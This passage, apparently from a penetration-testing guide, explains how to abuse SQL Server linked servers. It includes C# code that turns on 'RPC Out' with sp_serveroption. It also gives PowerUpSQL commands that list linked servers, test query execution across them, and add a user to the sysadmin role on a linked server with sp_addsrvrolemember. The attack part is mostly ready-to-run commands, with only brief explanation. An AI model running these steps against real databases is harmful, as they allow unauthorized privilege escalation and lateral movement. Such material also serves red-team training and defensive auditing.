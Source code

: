 3. **Enabling RPC Out**:
   - The `EnableRpcOut` method enables `RPC Out` for the linked server by executing the `sp_serveroption` stored procedure with the appropriate parameters.

   ```csharp
   static void EnableRpcOut(SqlConnection connection, string linkedServerName)
   {
       string query = "EXEC sp_serveroption @server = @LinkedServerName, @optname = 'rpc out', @optvalue = 'true'";
       using (SqlCommand command = new SqlCommand(query, connection))
       {
           command.Parameters.AddWithValue("@LinkedServerName", linkedServerName);
           command.ExecuteNonQuery();
       }
   }
   ```

4. **Main Method Workflow**:
   - The main method establishes a connection to the SQL Server.
   - It checks if `RPC Out` is enabled for the specified linked server.
   - If `RPC Out` is not enabled, it enables it and then verifies that it has been enabled successfully.



### Abuse Linked Servers Using PowerShell (PowerUpSQL)

PowerUpSQL includes a set of cmdlets specifically designed for enumerating and exploiting linked servers in SQL Server environments.

#### 1. **Enumerate Linked Servers**
   - List all linked servers configured on a SQL Server instance.
   ```powershell
   Get-SQLServerLink -Instance <SQL_INSTANCE>
   ```

   - Example:
   ```powershell
   Get-SQLServerLink -Instance "ServerName\InstanceName"
   ```

#### 2. **Check for Open Query Execution on Linked Servers**
   - Check if the linked server allows the execution of queries with a higher privilege.
   ```powershell
   Invoke-SQLLinkedCmd -Instance <SQL_INSTANCE> -Query "SELECT SYSTEM_USER;" -LinkedInstance <LINKED_SERVER>
   ```

   - Example:
   ```powershell
   Invoke-SQLLinkedCmd -Instance "ServerName\InstanceName" -Query "SELECT SYSTEM_USER;" -LinkedInstance "LinkedServerName"
   ```

#### 3. **Execute Commands on the Linked Server**
   - Once you've found a linked server that allows open query execution, you can execute arbitrary SQL commands. For instance, you can try to execute a command to add a user with sysadmin privileges.
   ```powershell
   Invoke-SQLLinkedCmd -Instance <SQL_INSTANCE> -Query "EXEC sp_addsrvrolemember 'MyNewUser', 'sysadmin';" -LinkedInstance <LINKED_SERVER>
   ```

